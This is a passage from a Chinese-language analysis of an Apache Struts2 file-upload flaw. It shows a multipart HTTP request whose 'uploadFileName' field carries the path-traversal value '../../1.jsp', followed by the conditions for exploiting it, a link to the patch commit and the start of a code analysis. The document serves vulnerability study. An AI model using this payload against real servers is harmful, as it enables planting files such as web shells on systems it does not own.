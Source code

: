 ```http
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------21972861871679732823856174094
Content-Disposition: form-data; name="Upload"; filename="11111.txt"
Content-Type: text/plain

1111
-----------------------------21972861871679732823856174094
Content-Disposition: form-data;  name="uploadFileName"

../../1.jsp
-----------------------------21972861871679732823856174094
Content-Disposition: form-data; name="caption"

3333
-----------------------------21972861871679732823856174094--

```

**利用条件：**

1. 首先要知道 文件上传代码中的文件名字段名， 这里上传名是 `upload` （由jsp中定义），文件名字段按照习惯可能会是`UploadFileName` （upload + FileName） ，如果不是则无法覆盖

   > Content-Disposition: form-data; name="Upload"; filename="11111.txt"
   >
   > Content-Disposition: form-data;  name="uploadFileName"

2. 这个洞的利用点就在通过自己传的文件名覆盖掉Strust2自动赋值的文件名，所以如果原来程序逻辑本来就是获取文件名，根据后缀判断，那这个洞就没法利用了

   > 这么看，其实没有想象的那么严重？



# 漏洞分析

这个补丁这么找来的

https://github.com/apache/struts/commit/162e29fee9136f4bfd9b2376da2cbf590f9ea163



`org.apache.struts2.interceptor.FileUploadInterceptor#intercept` 这里主要提取用户的数据包中的文件、文件名、文件类型字段
